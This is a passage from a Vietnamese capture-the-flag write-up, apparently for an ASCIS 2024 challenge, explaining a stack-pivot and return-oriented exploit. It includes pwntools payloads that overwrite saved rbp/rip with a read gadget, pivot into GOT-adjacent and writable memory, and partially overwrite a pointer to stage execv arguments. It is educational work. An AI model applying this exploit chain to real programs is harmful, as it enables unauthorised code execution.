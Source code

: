 Nó sẽ return về một nơi không có dữ liệu và kiểm tra ở chỗ đó ta sẽ thấy

![alt text](/img/ASCIS2024/image-7.png)

Vì thế ta cần phải ghi dữ liệu vào đây trước để khi nó return thì nó mới return được, vì vậy ta sẽ đổi payload đầu từ `rw_section + 0x20` -> `exe.got.alarm + 0x40` bằng cách này ta sẽ đảm bảo được rằng luôn có dữ liệu ở những vùng mà ta có thể kiểm soát

```py
    pl = flat(

        b'A' * 0x20,
        exe.got.alarm + 0x20 + 0x20,
        read_gadget

    )


    input("1st")
    sleep(0.5)
    s(pl)

    pl = flat(
        b'B' * 0x20,
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```

Và sau khi chạy lại

![alt text](/img/ASCIS2024/image-8.png)

Ta sẽ thấy lúc này nó return vào một dãy kí tự `B` của ta, tức là ở đầu đoạn của payload 2, và ta chỉ cần làm là thay đổi payload 2 lại một chút để ta có thể thực hiện lần read tiếp theo, và ở lần read này sẽ là lần read mà ta setup các argument cần thiết để thực thi `execv` nên mình có thể cho nó read vào bất cứ đâu cũng được miễn là né vùng `GOT` và vùng đó phải có `rw-`

### Setup argument

Thì mình sẽ chọn `rw_section`, vì vùng này chưa có dữ liệu gì nên ta có thể read vào thoải mái

```py
    pl = flat(
        rw_section + 0x20,             # saved rbp 3
        read_gadget,                   # saved rip 3
        b'B' * 0x10,
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```
